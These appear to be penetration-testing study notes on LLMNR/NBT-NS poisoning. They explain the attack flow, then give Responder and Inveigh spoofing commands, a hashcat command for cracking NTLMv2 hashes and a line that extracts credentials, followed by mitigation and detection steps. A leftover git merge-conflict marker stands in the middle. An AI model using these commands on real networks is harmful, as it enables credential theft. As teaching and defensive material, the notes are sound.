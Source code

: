 -----
# LLMNR / NBT-NS
-----
- LLMNR (Link Local Multicast Name Resolution) & NBT-NS (NetBIOS Name Service) are the two alternative protocols that hosts use when they fail to resolve DNS. 
- Both allows one host to resolve DNS issues for other hosts within the same local network.
- Both use UDP. LLMNR uses port 5355 while NBT-NS uses port 137
- Flow of attack
	1. Host try to connect to a printer server \\\\print01
	2. There is a typo \\\\printer01 -> DNS fails to resolve
	3. The host will use LLMNR to broadcast to other hosts in the same network, trying to resolve the DNS
	4. Attacker captures the request (by listening to the traffic using Responder, Inveigh or Metasploit), claims to know where \\\\ printer01 is located
	5. The host will send request with authentication data (username and NTLMv2 hashes)
	6. Attackers can crack the hashes or use them to perform relay attacks.

### Responder
- We can use `Responder` on Linux to capture request
```bash
sudo responder -I ens224
```

- Logs and results of Responders run will be stored in ***/user/share/responder/logs***
- From here we can use Hashcat -m 5600 to crack the hashes -> obtain credentials
<<<<<<< HEAD
```bash
hashcat -m 5600 hashes.list rockyou.txt -o cracked-hashes.list
```
- Extract the fields to get user credentials
```bash
cat crack-hashes.list | awk -F ":" '{print $1, $NF}' | sed -e 's/\s\+/:/g' >> credentials.list
```
=======
>>>>>>> ab04fa3fca2b7b9c76fba24003dde0a6354d90f2

## Inveigh
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh) Windows PWNBOX, similar to Responder
```bash
Import-Module .\Inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters
```

- Start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to file
```bash
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOuptut Y 
```

- The PowerShell version is no longer updated. We must compile the C# version to use.
```PowerShell
./Inveigh.exe

HELP to see options for Inveigh
# view unique hashes
GET NTLMV2UNIQUE
# Get usernames
GET NTLMV2USERNAMES
```

-----
# Mitigation
-----
- Mitre ATT&CK lists this technique as [ID: T1557.001](https://attack.mitre.org/techniques/T1557/001), `Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay`.
- We can disable LLMNR and NBT-NS
	- We can disable LLMNR in Group Policy by going to Computer Configuration --> Administrative Templates --> Network --> DNS Client and enabling "Turn OFF Multicast Name Resolution."
	- NBT-NS cannot be disabled via Group Policy but must be disabled locally on each host. We can do this by opening `Network and Sharing Center` under `Control Panel`, clicking on `Change adapter settings`, right-clicking on the adapter to view its properties, selecting `Internet Protocol Version 4 (TCP/IPv4)`, and clicking the `Properties` button, then clicking on `Advanced` and selecting the `WINS` tab and finally selecting `Disable NetBIOS over TCP/IP`.

- Use PowerShell script to disable NBT-NS  under Computer Configuration --> Windows Settings --> Script (Startup/Shutdown) --> Startup with something like the following:
```powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```

- To push this out to all hosts in a domain, we could create a GPO using `Group Policy Management` on the Domain Controller and host the script on the SYSVOL share in the scripts folder and then call it via its UNC path such as:

`\\inlanefreight.local\SYSVOL\INLANEFREIGHT.LOCAL\scripts`

- Once the GPO is applied to specific OUs and those hosts are restarted, the script will run at the next reboot and disable NBT-NS, provided that the script still exists on the SYSVOL share and is accessible by the host over the network.

-----
# DETECTION
-----
- One way is to use the attack against the attackers by injecting LLMNR and NBT-NS requests for non-existent hosts across different subnets and alerting if any of the responses receive answers which would be indicative of an attacker spoofing name resolution responses. [View this blog post](https://www.praetorian.com/blog/a-simple-and-effective-way-to-detect-broadcast-name-resolution-poisoning-bnrp/)
- Host can be monitored on UDP 5355 and 137, events IDs 4697 and 7045.
- Monitor Registry key `HKLM\Software\Policies\Microsoft\Windows NT\DNSClient` for changes to the `EnableMulticast` DWORD value. A value of `0` would mean that LLMNR is disabled.